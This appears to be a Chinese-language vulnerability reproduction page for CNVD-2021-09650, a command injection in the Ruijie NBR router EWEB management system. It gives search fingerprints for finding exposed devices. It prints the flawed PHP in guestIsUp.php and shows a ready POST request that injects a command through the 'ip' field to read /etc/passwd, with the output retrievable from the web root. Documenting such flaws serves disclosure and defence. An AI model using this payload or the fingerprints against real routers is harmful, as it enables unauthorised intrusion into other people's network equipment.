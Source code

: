 # 锐捷 NBR 路由器 guestIsUp.php 远程命令执行漏洞 CNVD-2021-09650

## 漏洞描述

锐捷NBR路由器 EWEB网管系统部分接口存在命令注入，导致远程命令执行获取权限

## 漏洞影响

<a-checkbox checked>锐捷NBR路由器 EWEB网管系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="锐捷网络-EWEB网管系统"</a-checkbox></br>

<a-checkbox checked>icon_hash="-692947551"</a-checkbox></br>

## 漏洞复现



![img](../../../.vuepress/public/img/ruijie-6.png)



出现漏洞的文件在 **/guest_auth/guestIsUp.php**



```php
<?php
    //查询用户是否上线了
    $userip = @$_POST['ip'];
    $usermac = @$_POST['mac'];
    
    if (!$userip || !$usermac) {
        exit;
    }
    /* 判断该用户是否已经放行 */
    $cmd = '/sbin/app_auth_hook.elf -f ' . $userip;
    $res = exec($cmd, $out, $status);
    /* 如果已经上线成功 */
    if (strstr($out[0], "status:1")) {
        echo 'true';
    }
?>
```



这里看到通过命令拼接的方式构造命令执行，



```shell
POST /guest_auth/guestIsUp.php
mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```



然后访问页面 **/guest_auth/test.txt** 就可以看到命令执行的结果



![img](../../../.vuepress/public/img/ruijie-5.png)



## 